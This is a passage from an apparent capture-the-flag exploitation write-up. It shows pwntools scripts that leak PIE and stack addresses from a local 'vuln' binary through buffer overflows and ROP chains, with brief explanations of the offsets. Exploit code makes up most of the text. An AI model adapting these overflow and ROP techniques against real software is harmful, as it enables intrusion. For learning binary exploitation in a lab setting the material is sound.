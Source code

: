```python
from pwn import *
context.binary = elf = ELF("./vuln")

io = remote("127.0.0.1",1337)

name = b"A"*8
io.sendlineafter(b"name: ",name)
io.readuntil(name)
pie_leak = u64(io.readuntil("\n; send",drop=True).ljust(8,b"\x00")) - 2058
print("PIE: " + hex(pie_leak))
elf.address = pie_leak

message = b"A"*0x20
message += b"B"*8
message += p64(elf.symbols['vuln']+0x18)
io.sendlineafter(b"message now: ",message)

io.clean()
second_name = b"A"*0x77
io.sendline(second_name)

io.interactive()
```
![](https://i.imgur.com/oG1HJaw.png)

Unfortunately, a long name will be apart of a buffer overflow which is why the binary crashes, luckly we still control what `pc` will be.

We can rop to the address directly after the read call to continue execution and print our leak. That address is `vuln+0x1c`

```python
second_name  = b"A"*8 #x29
second_name += p64(elf.symbols['vuln']+0x1c) #x30
second_name += b"A"*32 # junk
second_name += b"A"*8 #x29
second_name += p64(elf.symbols['main']) #x30
second_name += b"A"*0x37 # more junk to bring size to 0x77
io.sendline(second_name)
io.readline()
stack_leak = u64(io.readline().strip().ljust(8,b"\x00")) - 280
print("Stack Leak: " + hex(stack_leak))

io.interactive()
```

I subtracted 280 from the leak because that is the address of the beginning of the input.

Also have the binary rop to main after the leak is done.

![](https://i.imgur.com/BDzZFkJ.png)

